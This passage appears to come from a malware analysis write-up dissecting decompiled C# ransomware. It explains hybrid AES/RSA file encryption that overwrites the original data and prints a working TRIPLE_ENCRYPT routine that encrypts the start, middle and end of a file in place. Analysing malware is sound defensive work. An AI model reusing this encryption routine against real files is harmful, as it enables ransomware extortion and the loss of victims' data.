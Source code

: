     -   `RijndaelManaged rijndaelManaged = new RijndaelManaged()`: Initializes a new instance of the `RijndaelManaged` class, which is an implementation of the AES algorithm.
    -   Sets the key size to 256 bits and block size to 128 bits.
    -   Sets the AES key and IV using the previously generated random strings.
5.  **Encrypting the File Contents**:
    
    -   A `CryptoStream` is set up with the AES encryptor.
    -   The original file contents (`array`) are written to the `CryptoStream`, which encrypts the data.
    -   The encrypted data is then stored in `array2`.
6.  **Writing the Encrypted Data Back to the File**:
    
    -   The original file is opened, and its length is set to 0 to erase its contents.
    -   The encrypted data (`array2`) is written to the file.
7.  **Appending the Encrypted AES Key and IV**:
    
    -   A new file stream is opened in append mode.
    -   The encrypted AES key and IV (`Program.RSA_KEY_IV`) are written to the end of the file. This is crucial for later decryption, as the encrypted file can only be decrypted with the corresponding RSA private key.

### `RSA_ENCRYPT` Function:

-   This function is used for encrypting the AES key and IV with RSA.
-   `RSACryptoServiceProvider` is initialized, and the public key is loaded using `FromXmlString`.
-   The AES key and IV are encrypted using the RSA public key.
-   The function returns the encrypted data.

### Overall Process:

This function fully encrypts a file with AES, secures the AES key and IV with RSA encryption, and then writes both the encrypted file data and the encrypted AES key and IV back to the original file. This method is a form of hybrid encryption, combining the efficiency of AES for large data with the security of RSA for key exchange.

## TRIPLE_ENCRYPT function
```csharp
private static void TRIPLE_ENCRYPT(string filePath, int length, int beginning, long middle, long end)
{
	string text = Program.RANDOM_STRING(32);
	string text2 = Program.RANDOM_STRING(16);
	byte[] bytes = Encoding.ASCII.GetBytes(text + "|" + text2);
	Program.RSA_KEY_IV = Program.RSA_ENCRYPT(Program.RSA_PUBLIC_KEY, bytes);
	using (FileStream fileStream = new FileStream(filePath, FileMode.Open, FileAccess.ReadWrite))
	{
		fileStream.Position = (long)beginning;
		byte[] array = new byte[length];
		fileStream.Read(array, 0, length);
		byte[] array2 = Program.ENCRYPT_DATA(text, text2, array);
		fileStream.Position = (long)beginning;
		fileStream.Write(array2, 0, array2.Length);
		fileStream.Position = middle;
		byte[] array3 = new byte[length];
		fileStream.Read(array3, 0, length);
		byte[] array4 = Program.ENCRYPT_DATA(text, text2, array3);
		fileStream.Position = middle;
		fileStream.Write(array4, 0, array4.Length);
		fileStream.Position = end;
		byte[] array5 = new byte[length];
        fileStream.Read(array5, 0, length);
		byte[] array6 = Program.ENCRYPT_DATA(text, text2, array5);
		fileStream.Position = end;
		fileStream.Write(array6, 0, array6.Length);
	}
```